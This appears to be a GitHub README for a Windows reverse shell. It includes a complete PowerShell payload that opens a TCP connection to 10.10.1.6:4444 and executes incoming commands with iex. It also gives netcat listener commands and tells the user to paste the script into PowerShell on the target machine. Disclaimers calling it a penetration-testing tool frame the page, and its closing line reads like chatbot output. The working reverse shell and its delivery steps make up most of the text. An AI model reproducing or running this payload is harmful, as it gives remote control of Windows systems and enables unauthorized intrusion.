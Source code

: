 ### **Reverse Shell Setup & Execution Guide**

## **Overview**
This document provides instructions for setting up and using a **Windows Reverse Shell** to connect from a target Windows machine back to an attacker's machine. The reverse shell allows an attacker to remotely execute commands on the target system by initiating a connection from the target to the attacker’s listener.

### **Important Disclaimer**
This tool is intended for ethical penetration testing, security research, or authorized security assessments only. Unauthorized use is illegal and unethical. Always obtain explicit permission before testing any system.
---
## **Requirements**
### **Attacker Machine**
1. **Netcat** or any other listener for receiving connections from the target system.
   - Use `nc` (Netcat) to listen for incoming connections:
     ```shell
     nc -lvnp 4444
     ```

2. **PowerShell** (on the target machine):
   - The script uses PowerShell to execute commands on the target system.

### **Target Machine (Windows)**
- Windows PowerShell, which is available on most modern versions of Windows.
  
## **Payload Script Explanation**

### **PowerShell Reverse Shell Script:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.1.6', 4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535 | % { 0 };
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String);
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
};
$client.Close();
```

### **Explanation:**
1. **TCP Connection**: The reverse shell creates a TCP connection to the attacker's machine using the specified IP (`10.10.1.6`) and port (`4444`).
2. **Data Stream**: Once connected, it listens for commands and executes them using `iex` (Invoke-Expression).
3. **Command Output**: The result of each command is sent back to the attacker, and this process continues until the connection is closed.

---

## **Setup Instructions**

### **Step 1: Set Up Listener on Attacker Machine**
On your Kali (attacker) machine, open a terminal and start a listener to receive the incoming reverse shell connection:
```bash
nc -lvnp 4444
```
This will start Netcat on port `4444`, listening for incoming connections from the target machine.

### **Step 2: Deliver the Payload to Target Machine**
 **Manual Execution**: 
   You can manually execute the script on the target machine by copying and pasting it into a PowerShell window.
   
---

## **Legal Disclaimer**

This tool is intended for use only in authorized penetration tests, security assessments, or other lawful security-related activities. Unauthorized access to computers and networks is illegal and unethical. Always obtain explicit written permission before using this tool on any system that you do not own or have authorization to test.

---

By following this README, you should be able to execute and understand the reverse shell setup for ethical hacking purposes. Let me know if you need more information or adjustments!
